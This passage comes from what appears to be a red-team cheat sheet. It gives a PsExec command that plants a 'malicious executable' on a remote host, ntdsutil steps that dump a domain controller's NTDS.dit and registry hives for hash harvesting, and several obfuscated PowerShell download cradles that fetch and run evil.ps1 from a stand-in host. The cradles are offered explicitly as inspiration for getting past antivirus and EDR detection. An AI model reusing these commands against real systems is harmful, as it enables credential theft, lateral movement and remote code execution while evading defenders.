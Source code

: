# This will kill the PsExec session and leave the malicious executable on disk
PsExec.exe /accepteula \\192.168.1.2 -u CORP\user -p password -d update.exe
```

## Windows Domain Controller Hash Harvesting:

GOAL: Obtain ```NTDS.dit``` and SYSTEM registry hive data

```
C:\Users\RoseSecurity> ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\ntds

Copying registry files...
Copying c:\ntds\registry\SYSTEM
Copying c:\ntds\registry\SECURITY
IFM media created successfully in c:\ntds
ifm: quit
ntdsutil: quit
```

## Payload Download Cradles: (https://github.com/VirtualAlllocEx)

This are different types of download cradles which should be an inspiration to play and create new download cradles to bypass AV/EPP/EDR in context of download cradle detections. Notice, removing or obfuscating signatures from your download cradle is only one piece of the puzzle to bypass an AV/EPP/EDR. Depending on the respective product you have to modify your payload which should be downloaded by the cradle to bypass API-Hooking, Callbacks, AMSI etc.

```
# not proxy aware cmd download cradles 

# default download cradle 
c:\WInDowS\sySTEM32\cmD.eXE   /c  PoWErSheLl  -nopROfi  -EXe  byPAsS  -wiNDOwsTy  HIDdEN -cOMMA  "IEX (New-Object Net.Webclient).downloadstring(\"http://EVIL/evil.ps1\")"
PoWErSheLl  -nopROfi  -EXe  byPAsS  -wiNDOwsTy  HIDdEN -cOMMA  "IEX (New-Object Net.Webclient).downloadstring(\"http://EVIL/evil.ps1\")"

# obfuscated v1
CMD> c:\wiNdoWs\sysTEM32\CmD  /c  pOWeRshell -WiNDOW  HIddEN -eXECUTI  BYpaSS  -nop  -CoMmanD   "(New-Object Net.WebClient).DownloadString('http://EVIL/evil.ps1')|.( ([String]''.Chars)[15,18,19]-Join'')"
CMD> pOWeRshell -WiNDOW  HIddEN -eXECUTI  BYpaSS  -nop  -CoMmanD   "(New-Object Net.WebClient).DownloadString('http://EVIL/evil.ps1')|.( ([String]''.Chars)[15,18,19]-Join'')"


[VICTIM]: PS C:\Users\Victim\Documents>